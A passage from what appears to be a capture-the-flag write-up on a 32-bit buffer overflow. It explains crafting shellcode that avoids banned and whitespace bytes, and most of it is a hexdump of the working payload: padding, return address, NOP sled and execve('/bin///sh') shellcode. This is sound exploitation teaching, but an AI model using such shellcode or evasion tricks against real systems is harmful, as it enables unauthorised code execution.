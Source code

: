 Adding to that, we cannot use whitecharacters, since `__iso99_scanf` stops reading at them, too!

However, with the aid of [ODA](https://www.onlinedisassembler.com/odaweb/), disassembled code and an [Opcode reference manual](http://ref.x86asm.net/coder32.html), we can craft our own shellcode (and learn something)!

[This python code](./solve.py) modifies two out of three push instructions used to push the string `/bin///sh` to the stack and moving `0xb` to `eax` with some easy `add` and `sub` calculations to circumvent having any of the banned bytes in our shellcode.

Note that we have to rely on luck, since we cannot leak any stack address and have to guess a possible pointer (e.g. through `gdb`) to a crafted NOP-sled.

Running the solution writes our shellcode to a binary named `in`:

```bash
$ python solve.py
$ xxd in
0000000: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000010: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000020: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000030: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000040: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000050: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000060: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000070: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
0000080: 5045 5349 5045 4449 5045 4250 c8d2 ffff  PESIPEDIPEBP....
0000090: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000a0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000b0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000c0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000d0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000e0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000f0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000100: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000110: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000120: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000130: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000140: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000150: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000160: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000170: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000180: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000190: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001a0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001b0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001c0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001d0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001e0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00001f0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000200: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000210: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000220: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000230: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000240: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000250: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000260: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000270: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000280: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000290: 6a68 b806 0606 5205 2929 2921 50b8 0639  jh....R.)))!P..9
00002a0: 4045 0529 2929 2950 89e3 31c9 6a41 5883  @E.))))P..1.jAX.
00002b0: e836 99cd 80                             .6...
```
